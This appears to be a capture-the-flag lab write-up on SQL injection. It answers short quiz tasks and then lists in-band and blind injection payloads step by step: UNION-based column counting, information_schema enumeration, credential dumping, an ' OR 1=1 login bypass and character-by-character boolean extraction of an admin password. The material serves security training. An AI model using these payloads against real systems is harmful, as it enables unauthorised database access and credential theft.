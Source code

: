 
## *Task 1*
>	- Structured Query Language
## *Task 2*
>	- DBMS
>	- Table
## *Task 3*
>	- SELECT
>	- UNION
>	- INSERT
## *Task 4*
>	- ;
## *In-Band SQLi*
>	- Using `'` to verify SQLi vulnerability.![](sqli-detected.png)
>	- Getting number of columns using `UNION SELECT NULL` and adding nulls till the there is no error.![](union-cols-1.png)![](union-cols-2.png)
>	- Changing the id to a non existent article and then getting the database name using `UNION SELECT NULL,NULL,database()`.
> - ![](db-name.png)
>	- Getting the table names using `UNION SELECT NULL,NULL,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`.![](table-names.png)
>	- Get column names from staff_users table using `UNION SELECT NULL,NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`.![](staff-col-names.png)
>	- Get usernames and passwords using `UNION SELECT NULL,NULL,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`.![](staff-creds.png)
>	- Answer the question and get the flag.![](flag-1.png)
## *Blind SQLi*
>	- Using `' OR 1=1;--` in the password field to bypass the login.![](flag-2.png)
>	- Using `admin123' UNION SELECT NULL;--` to get the column names.![](bool-1.png)![](bool-2.png)
>	- Using `'UNION SELECT 1,2,3 WHERE database() LIKE 'a%';--` to get the database name.![](bool-3.png)
>	- Change the value till a true occurs.![](bool-4.png)
>	- Keep adding characters till we get the entire name.![](bool-5.png)
>	- Now use the found name to enumerate the tables.
>	- Using `' UNION SELECT 1,2,3 FROM infromation_schema.tables WHERE table_schema = 'sqli_three' AND table_name LIKE 'u%';--`.![](bool-6.png)
>	- Again keep adding characters till the table name is found.![](bool-7.png)
>	- Confirm the table name using `' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' AND table_name = 'users';--`.![](bool-8.png)
>	- Now, enumerate the column names in the users table using `' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema = 'sqli_three' AND table_name = 'users' AND column_name LIKE 'a%';--`.
>	- Column `id` is found.![](bool-9.png)
>	- Now remove that found column name `' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema = 'sqli_three' AND table_name = 'users' AND column_name LIKE 'a%' AND column_name != 'id';--`.
>	- Column username is found.![](bool-10.png)
>	- Column password is found.![](bool-11.png)
>	- Now, enumerate the users table for the username admin using `' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'a%';--`.![](bool-12.png)
>	- Admin user is found.![](bool-13.png)
>	- Enumerating for his password using `' UNION SELECT 1,2,3 FROM users WHERE username = 'admin' AND password LIKE 'a%';--`.![](bool-14.png)
>	- Confirming the password.![](bool-15.png)
>	- Using the found credentials to get the flag.![](flag-3.png)
